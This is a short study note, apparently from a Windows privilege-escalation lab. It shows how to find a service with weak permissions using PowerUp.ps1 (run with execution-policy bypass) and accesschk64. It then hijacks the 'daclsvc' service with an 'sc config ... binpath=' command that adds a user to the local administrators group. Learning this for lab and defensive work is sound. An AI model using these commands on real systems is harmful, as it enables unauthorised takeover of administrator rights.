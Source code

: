 # Detection
---
- Find using `PowerUp.ps1`:
	- `powershell.exe -ep bypass`
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
	- ![[Pasted image 20250418154738.png]]
	- Note:- ==Important that **we should be able to restart this**, only then we can get a abuse this==
- Find Manually using Accesschk:
	- `accesschk64.exe -uwcv Everyone *`
		- `-u`: Show no errors
		- `-w`: Objects with write access
		- `-c`: Show Service Names
		- `-v`: Verbose
		- `Everyone`: Group `Everyone`, **because this is our group**
		- ![[Pasted image 20250418154832.png]]
		- Now check for the found `daclsvc` specifically:
		- `accesschk64.exe -uwcv daclsvc`
			- Our group `Everyone`can **RW**:
			- ==We should have **SERVICE_CHANGE_CONFIG**==
				- ![[Pasted image 20250418155157.png]]
		- Now to **find the binary executable**:
			- `sc qc daclsvc`
			- ![[Pasted image 20250418155605.png]]

# Exploitation
---
- Now since we have `SERVICE_CHANGE_CONFIG`, **we can change the config of the service**:
	- `sc config daclsvc binpath= "net localgroup administrators user /add"`
- Check the binary path name again:
	- `sc qc daclsvc`
	- ![[Pasted image 20250418155942.png]]
- Start the service:
	- `sc start daclsvc`
	- ![[Pasted image 20250418160113.png]]
	- **We get the error as it is not an executable which is fine**
- ![[Pasted image 20250418160157.png]]